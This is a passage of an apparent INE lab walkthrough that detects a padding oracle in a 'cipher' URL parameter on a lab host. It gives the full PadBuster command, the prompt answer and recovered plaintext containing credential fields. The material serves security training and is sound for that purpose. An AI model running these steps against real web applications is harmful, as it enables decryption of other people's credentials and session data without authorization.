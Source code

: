 
- Notice the exception. The application expected hexadecimal digits but found non-hexadecimal digits instead (letter 'g').

Now check the response from the following URL:

- URL: http://demo.ine.local/echo?cipher=g

Now check the response from the following URL:
```bash
URL: http://demo.ine.local/echo?cipher=6b
```


These errors may suggest that:
```bash
- The string consists of hexadecimal characters (0-0xff)
- The string has to be aligned to two characters
- The string is being decrypted somehow
```

- Since different strings produced different exceptions, there might be a chance to perform a padding oracle attack here.

Step 7: Decrypt the encrypted data by performing a padding oracle attack.

> PadBuster is started with the following arguments in our attempt to decrypt the encrypted data:

Command:
```bash
padbuster "http://demo.ine.local/echo?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80" "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80" 16 -encoding 1
```

The following are the options provided to the PadBuster tool:
```bash
- The target URL containing the ciphertext
- The ciphertext itself
- Block size (128 bits = 16 bytes)
- Encoding type 1 = lowercase hex (which was confirmed by experimenting with the endpoint in the previous step)
```


You would be prompted with the following message:

Enter an ID that matches the error condition NOTE: The ID# marked with ** is recommended :
```bash
Enter 2.
```


> Padbuster was able to recover two blocks of the plaintext message:


Block 1 Results:
```bash
[+] Cipher Text (HEX): b8f1335522753d45174435c16b52dc2e
[+] Intermediate Bytes (HEX): 0a0b2bcd40ec8741c671cc45c25ae140
[+] Plain Text: ame=user&Passwor
```
